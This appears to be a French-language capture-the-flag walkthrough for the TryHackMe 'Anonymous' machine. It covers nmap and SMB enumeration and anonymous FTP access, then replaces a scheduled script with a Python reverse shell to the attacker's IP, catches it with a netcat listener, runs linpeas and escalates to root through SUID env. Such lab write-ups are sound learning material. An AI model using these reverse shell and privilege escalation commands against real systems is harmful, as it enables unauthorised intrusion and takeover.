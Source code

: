 Anonymous est une machine medium sur tryhackme,qui est plutot guidée au niveau des instructions
commencons par un scan nmap 
objectif : trouver quels services tournent sur la machine.
#  1:Scan NMAP
nmap -A -p- -oN nmapscan.txt 10.10.248.163
-A : détection de version + os
-p- : scan tous les ports de 1 jusqua je sais plus combien
-oN : on garde une copie du scan(optionel)
résultat :
port 21 : ftp (service de transfert de fichiers)
por 22 : ssh (accès distant )
ports 139/445 : smb (partages réseau windows)

# 2 enumeration smb
objectif : voir si smb donne accès à des dossiers/fichiers ou utilisateurs.

outil utilisé : enum4linux
enum4linux 10.10.248.163
résultat :
utilisateur trouvé : namelessone
partage réseau trouvé : pics
un test de connection peut etre effectué mais la on en a pâs besoin sur cedtte machine,comme des cve presents mais ici on ne nous demande pas de les utiliser

# 3: FTP
alors dans le scan nmap on a vu que on pouvais se co en tant qu'Anonymous au FTP,ce qui est generalement très utile,surtout dans les ctf

# objectif : voir si le ftp cache des choses

commande utilisée : ftp 10.10.248.163
puis on rentre le nom d'utilisateur anonymous et en mot de passe,on appuie sur entrée
on fait ls puis on repere un dossier scripts
cd scripts
ls
on y trouve 3 fichiers : 
clean.sh : script bash exécutable

to_do.txt : un fichier texte qui dit "je dois désactiver le login ftp anonyme,ce n'est vraiment pas securisé",bon pas grand chose mais ca nous dit deja que le ftp anonymous va beacuoup nous servir

removed_files.log : un log des fichiers supprimés
Ensuite,on telecharge clean.sh pour l'analyser
get clean.sh
il contient un script bash qui nettoie les fichiers temporaires,surement executé une fois toutes les ? minutes mais ca on ne sait pas
si on le modifie, on peut faire exécuter nos propre ligne de commandes en bash
# Reverse shell
1:on modifie clean.sh avec nano ici mais faisable avec tout autre editeur de texte,puis on rentre un script python qui va nous permettre d'avoir un reverse shell sur la machine ciblr

#!/bin/bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ton adressseip",2121));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

2:upload le shell
put clean.sh
3: tu ouvre un listener netcat sur ton port
nc -lvnp 2121
après quelques minutes,on a un reverse shell ! 
il est fragile et le but ici est de le stabiliser,alors on peut utiliser ce script python
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
une fois qu'on a un reverse shell stable,on peut aller dans .ssh et changer la clé si on veut etre co en ssh moi je men fou donc bon on peut rester ici

# escalation de privilèges

je host un serveur avec python sur ma machine et recupere linpeas.sh avec wget(linpeas est un outil automatique pour du privesc)
alors apres je rend linpeas executable
chmod +x linpeas.sh
puis ./linpeas.sh
je vois le fichier en rouge
/usr/bin/env
après j'utilise env/bin/sh -p
puis je fais whoami et je suis root
alors je recupere root txt et cest fini! 











